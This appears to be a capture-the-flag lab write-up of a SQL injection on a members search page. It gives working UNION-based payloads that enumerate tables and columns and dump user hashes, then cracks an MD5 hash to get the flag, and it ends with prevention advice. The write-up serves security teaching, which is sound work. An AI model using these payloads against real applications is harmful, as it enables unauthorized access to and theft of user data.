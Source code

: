 # SQL Injection: Members Page Vulnerability

## Overview

A SQL Injection vulnerability found on the Members page allows attackers to exploit weak input validation and extract sensitive data.

---

## Discovery & Exploitation

### 1. Confirm the Vulnerability
- Input in search: `1' OR TRUE`
- Result: With single quote did not work.

- Input in search: `1 OR TRUE`
- Result: Returns all members, confirming SQL injection.

### 2. Extract DB and Table Info
- Query: `-1 union select database(), user()`
- Result: Reveals DB name and user.

- Query: `-1 UNION SELECT 1,table_name FROM information_schema.tables `
- Result: Reveals all Table names

### 3. Enumerate Structure
- Query: `-1 UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_schema=database() --`
- Result: Lists table/column names (e.g., `users`, `user_id`, `first_name`, `Commentaire`, `countersign`, etc.)

another option is directly using hex value of the Table "users" which is 0x7573657273
since using quote i.e. FROM "users" is not possible

- Query: `-1 union select column_name, table_name FROM information_schema.columns WHERE table_name LIKE 0x7573657273`
- Result: Lists table/column names (e.g., `users`, `user_id`, `first_name`, `Commentaire`, `countersign`, etc.)

### 4. Dump User Data
- Query: `-1 UNION SELECT concat(Commentaire, countersign), concat(user_id,first_name,last_name, country,town,planet) FROM users --`
- Result: Exposes sensitive data, including password hashes and hints.

### 5. Crack the Flag
- Extract hash: `5ff9d0165b4f92b14994e5c685cdce28`
- MD5 decrypt: `FortyTwo` (use [dcode.fr](https://www.dcode.fr/md5-hash) or [crackstation.net](https://crackstation.net) to decode MD5)
- Lowercase: `fortytwo`
- Get SHA-256:
    ```bash
    echo -n 'fortytwo' | sha256sum
    ```
- Flag: `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

---

## Prevention

1. **Parameterized Queries**
    ```php
    $stmt = $db->prepare("SELECT * FROM users WHERE id = ?");
    $stmt->bind_param("i", $user_id);
    ```
2. **Input Validation**
    ```php
    if (!is_numeric($user_id)) { exit("Invalid input"); }
    ```
3. **Database Security**
    - Use least-privilege DB accounts
    - Hide error messages
    - Monitor activity

4. **Web Application Firewall**
    - Deploy a WAF to block common attacks

5. **Regular Security Testing**
    - Run frequent scans and penetration tests

---

> Weak input validation can lead to full data exposure. Always use secure coding practices to protect your applications.